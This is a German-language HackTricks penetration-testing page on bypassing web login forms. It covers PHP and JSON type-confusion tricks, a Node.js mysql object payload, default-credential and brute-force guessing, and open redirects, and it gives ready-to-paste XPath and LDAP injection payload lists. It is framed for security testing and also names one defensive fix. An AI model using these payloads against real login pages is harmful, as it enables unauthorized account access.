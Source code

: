 # Login-Bypass

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Arbeiten Sie in einem **Cybersecurity-Unternehmen**? Möchten Sie Ihr **Unternehmen in HackTricks bewerben**? Oder möchten Sie Zugriff auf die **neueste Version von PEASS oder HackTricks im PDF-Format** haben? Überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* **Treten Sie der** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an das [hacktricks-Repository](https://github.com/carlospolop/hacktricks) und das [hacktricks-cloud-Repository](https://github.com/carlospolop/hacktricks-cloud) senden**.

</details>

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) ist die relevanteste Cybersicherheitsveranstaltung in **Spanien** und eine der wichtigsten in **Europa**. Mit **der Mission, technisches Wissen zu fördern**, ist dieser Kongress ein brodelnder Treffpunkt für Technologie- und Cybersicherheitsfachleute in jeder Disziplin.

{% embed url="https://www.rootedcon.com/" %}

## **Bypass der regulären Anmeldung**

Wenn Sie eine Anmeldeseite finden, finden Sie hier einige Techniken, um sie zu umgehen:

* Überprüfen Sie **Kommentare** auf der Seite (nach unten und nach rechts scrollen?)
* Überprüfen Sie, ob Sie auf die **eingeschränkten Seiten direkt zugreifen** können
* Überprüfen Sie, ob Sie die **Parameter nicht senden** (keine oder nur 1 senden)
* Überprüfen Sie den **PHP-Vergleichsfehler:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **Ändern Sie den Inhaltstyp in JSON** und senden Sie JSON-Werte (bool true eingeschlossen)
* Wenn Sie eine Antwort erhalten, dass POST nicht unterstützt wird, können Sie versuchen, das **JSON im Body, aber mit einer GET-Anfrage** mit `Content-Type: application/json` zu senden
* Überprüfen Sie potenzielle Parsing-Fehler in Node.js (lesen Sie [**dies**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Node.js wird diese Nutzlast in eine ähnliche Abfrage umwandeln: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` wodurch das Passwort immer wahr wird.
* Wenn Sie ein JSON-Objekt senden können, können Sie `"password":{"password": 1}` senden, um die Anmeldung zu umgehen.
* Denken Sie daran, dass Sie für das Umgehen dieser Anmeldung immer noch einen **gültigen Benutzernamen kennen und senden** müssen.
* Das Hinzufügen der Option `"stringifyObjects":true` beim Aufruf von `mysql.createConnection` wird schließlich **alle unerwarteten Verhaltensweisen blockieren, wenn `Object` als Parameter übergeben wird**.
* Überprüfen Sie Anmeldeinformationen:
* [**Standardanmeldeinformationen**](../../generic-methodologies-and-resources/brute-force.md#default-credentials) der verwendeten Technologie/Plattform
* **Gängige Kombinationen** (root, admin, password, Name der Technologie, Standardbenutzer mit einem dieser Passwörter).
* Erstellen Sie ein Wörterbuch mit **Cewl**, **fügen** Sie den **Standard**-Benutzernamen und das Passwort (falls vorhanden) hinzu und versuchen Sie, es mit allen Wörtern als **Benutzernamen und Passwort** per Brute-Force zu knacken
* **Brute-Force** mit einem größeren **Wörterbuch (**[**Brute force**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)**

### SQL-Injection-Authentifizierungsumgehung

[Hier finden Sie mehrere Tricks, um die Anmeldung über **SQL-Injections** zu umgehen](../sql-injection/#authentication-bypass).

Auf der folgenden Seite finden Sie eine **benutzerdefinierte Liste, um die Anmeldung über SQL-Injections zu umgehen**:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No-SQL-Injection-Authentifizierungsumgehung

[Hier finden Sie mehrere Tricks, um die Anmeldung über **No-SQL-Injections** zu umgehen](../nosql-injection.md#basic-authentication-bypass)**.**

Da NoSQL-Injections erfordern, dass der Wert der Parameter geändert wird, müssen Sie sie manuell testen.

### XPath-Injection-Authentifizierungsumgehung

[Hier finden Sie mehrere Tricks, um die Anmeldung über **XPath-Injections** zu umgehen](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP-Injektion zur Umgehung der Authentifizierung

[Hier finden Sie mehrere Tricks zur Umgehung der Anmeldung über **LDAP-Injektion**.](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Remember Me

Wenn die Seite die Funktion "**Remember Me**" hat, überprüfen Sie, wie sie implementiert ist, und sehen Sie, ob Sie sie missbrauchen können, um **andere Konten zu übernehmen**.

### Weiterleitungen

Seiten leiten Benutzer normalerweise nach dem Login weiter. Überprüfen Sie, ob Sie diese Weiterleitung ändern können, um eine [**Offene Weiterleitung**](../open-redirect.md) zu verursachen. Vielleicht können Sie einige Informationen (Codes, Cookies...) stehlen, wenn Sie den Benutzer auf Ihre Website umleiten.

## Weitere Überprüfungen

* Überprüfen Sie, ob Sie Benutzernamen durch den Missbrauch der Login-Funktion **enumerieren** können.
* Überprüfen Sie, ob die **Autovervollständigung** in den Passwort-/sensiblen Informationsformularen aktiv ist: `<input autocomplete="false"`



<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) ist die relevanteste Cybersicherheitsveranstaltung in **Spanien** und eine der wichtigsten in **Europa**. Mit **dem Ziel, technisches Wissen zu fördern**, ist dieser Kongress ein brodelnder Treffpunkt für Technologie- und Cybersicherheitsprofis in jeder Disziplin.

{% embed url="https://www.rootedcon.com/" %}

<details>

<summary><strong>Lernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Arbeiten Sie in einem **Cybersicherheitsunternehmen**? Möchten Sie Ihr **Unternehmen in HackTricks bewerben**? Oder möchten Sie Zugriff auf die **neueste Version des PEASS oder HackTricks als PDF-Download** haben? Überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* **Treten Sie der** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an das [hacktricks-Repository](https://github.com/carlospolop/hacktricks) und das [hacktricks-cloud-Repository](https://github.com/carlospolop/hacktricks-cloud) senden**.

</details>
